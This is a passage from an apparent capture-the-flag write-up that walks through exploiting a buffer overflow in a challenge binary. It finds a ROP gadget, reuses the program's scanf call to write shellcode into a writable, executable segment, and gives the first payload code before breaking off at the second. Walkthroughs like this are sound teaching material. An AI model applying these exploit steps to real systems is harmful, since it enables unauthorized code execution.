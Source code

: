 So we can see a `rwx` segment that starts at `0x601000` and ends at `0x602000`. This is a segment of memory that has a static address, we can write  to it, and we can execute it. This is perfect for us. Since scanf is used by the program, we can just call that again to scan input into `0x601000`, with the input being shellcode. Then it would just be a matter of setting the return address to `0x601000` to run the shellcode.

The first thing we should grab in order to do this is a rop gadget. We need a ROP gadget that will pop a single argument into the rbp register (reason will become apparant soon), then return. In order to do this, we can use ROPgadget.

```
$	ROPgadget --binary mrs._hudson | less
```

Looking through the list of gadgets, we find one that we can use:

```
0x0000000000400575 : pop rbp ; ret
```

So now that we have our ROP gadget, the next thing we will need is the address we will use to call `scanf`. Now instead of just grabbing the address of scanf and using that, we will be using the assembly address which is where the code start preparing for the `scanf` call, so it will be less work for us. This address is `0x40066f`:

```
  40066f:       48 8d 45 90             lea    rax,[rbp-0x70]
  400673:       48 89 c6                mov    rsi,rax
  400676:       bf 2b 07 40 00          mov    edi,0x40072b
  40067b:       b8 00 00 00 00          mov    eax,0x0
  400680:       e8 9b fe ff ff          call   400520 <__isoc99_scanf@plt>
```

Now the last thing we will need is the address which we are going to write to, which we already have `0x601000`. We can see here that the address that is being written to is loaded from rbp-0x70 (reason why we needed it to be popped into the rbp register). Now if we just give it the address `0x601000`, because of the `-0x70` it will write to the address `0x601000 - 0x70` which will cause our exploit to fail. So we need to give it the address `0x601000 + 0x70` in order for it to work.

With all of that, we are left with this as our first payload which we will send:

```
#Establish the address needed
scanf  = 0x40066f
memory = 0x601000
gadget = 0x400575

#gdb.attach(target)

#Establish the first payload, and send it
payload0 = "0"*120 + p64(gadget) + p64(memory + 0x70) + p64(scanf)
target.sendline(payload0)
```

So the next step is just to send the program the shellcode, and then run it. When we start the scanf call via ROP, the RIP is stored at `0x601078`, and since that is just 120 bytes away from the start of our input (and we have no limit as to the amount of characters we can write), we can just overwrite it and use it to jump to `0x601000`.  With this, we get our second payload:
